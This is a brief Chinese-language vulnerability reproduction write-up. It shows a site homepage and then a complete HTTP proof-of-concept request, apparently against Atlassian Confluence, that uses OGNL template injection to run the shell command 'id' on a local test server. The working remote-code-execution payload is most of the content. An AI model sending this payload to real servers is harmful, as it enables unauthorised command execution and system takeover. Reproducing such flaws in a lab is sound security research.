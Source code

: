 ![image-20240122195127771](assets/1705989496-dfe20e4785882678de0ba4b89e3322e9.png)

# 复现过程

1.  网站首页如下图：

![image-20240122195705018](assets/1705989496-53ae997af9a3db00dd8132393cfa888e.png)

2.  使用如下 POC 进行漏洞复现

```http
POST /template/aui/text-inline.vm HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded

label=aaa\u0027%2b#request.get(\u0027.KEY_velocity.struts2.context\u0027).internalGet(\u0027ognl\u0027).findValue(#parameters.poc[0],{})%2b\u0027&poc=@org.apache. struts2.ServletActionContext@getResponse().setHeader('Cmd-Responses-Header',(new freemarker.template.utility.Execute()).exec({"id"}))
```
